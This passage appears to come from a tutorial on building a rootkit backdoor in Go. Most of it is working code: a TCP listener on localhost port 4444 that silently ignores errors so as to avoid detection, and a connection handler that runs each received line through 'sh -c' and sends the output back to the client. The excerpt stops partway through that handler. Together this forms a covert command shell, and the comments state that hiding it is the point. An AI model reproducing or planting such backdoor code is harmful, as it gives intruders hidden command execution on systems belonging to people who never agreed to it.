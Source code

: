 ```go
for {
        conn, err := ln.Accept()
        if err != nil {
                // Don't log an error here otherwise we'd reveal the rootkit ;-)
                continue
        }

        go handleConnection(conn)
}
```

Whenever a connection is accepted, we call `handleConnection()` in a
goroutine, which allows us to handle multiple connections concurrently.

The whole `backdoor()` function looks like this:

```go
func backdoor() {
        ln, err := net.Listen("tcp", "localhost:4444")
        if err != nil {
                // Ignore errors to avoid detection
                return
        }

        for {
                conn, err := ln.Accept()
                if err != nil {
                        continue
                }

                go handleConnection(conn)
        }
}
```

In `handleConnection()`, we create a buffered I/O reader to read from
the connection using `bufio.NewReader()`. We then pass the buffered I/O
reader to `textproto.NewReader()`, which provides convenience methods
for reading from a text-based protocol connection, such as
`textproto.ReadLine()`.

```go
reader := bufio.NewReader(conn)
tp := textproto.NewReader(reader)
```

We then pass the line we read from the connection to `sh`, commonly
bash, as a command and write the output back to the connection.

The whole `handleConnection()` function looks like this:

```go
func handleConnection(conn net.Conn) {
        reader := bufio.NewReader(conn)
        tp := textproto.NewReader(reader)

        for {
                input, err := tp.ReadLine()
                if err != nil {
                        log.Println("Error reading:", err.Error())
                        break
                }

                cmd := exec.Command("/usr/bin/env", "sh", "-c", input)
                output, err := cmd.CombinedOutput()
                if err != nil {
                        conn.Write([]byte(err.Error() + "\n"))
                }
```